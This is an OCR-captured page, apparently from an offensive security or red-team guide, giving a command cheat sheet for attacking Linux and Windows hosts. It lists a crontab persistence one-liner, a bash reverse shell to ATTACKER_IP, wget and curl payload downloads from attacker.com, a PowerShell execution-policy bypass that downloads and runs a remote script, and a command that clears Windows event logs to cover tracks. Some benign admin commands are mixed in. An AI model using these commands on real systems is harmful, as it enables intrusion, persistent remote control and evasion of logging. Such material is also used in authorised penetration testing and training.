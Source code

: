 ## 9. Command Cheat Sheet

### Persistence
```bash
# Crontab one-liner
(crontab -l 2>/dev/null; echo "@reboot /path/to/payload") | crontab -
```

### File Operations
```bash
# Alternative download methods
python -c "import urllib; urllib.urlretrieve('http://url/to/file', 'outfile')"

# Background file transfer with logging
nohup rsync -av --log-file=./rsync.log /source /destination &

# SSH file transfer
scp user@host:/remote/file /local/destination
```

### Shell Management
```bash
# Upgrade to interactive shell
python -c 'import pty; pty.spawn("/bin/bash")'

# Linux reverse shell
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
```

### Network Operations
```bash
# Host discovery
nmap -Pn TARGET_RANGE

# Connection monitoring
netstat -tulnp

# HTTP requests
curl -X POST http://target/path -d 'malicious_payload'

# File downloads
wget http://attacker.com/payload -O /tmp/payload
curl -o /tmp/payload https://attacker.com/payload
```

### Windows Specific
```powershell
# Bypass execution policy
powershell -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1')"

# Clear event logs
wevtutil cl System
```
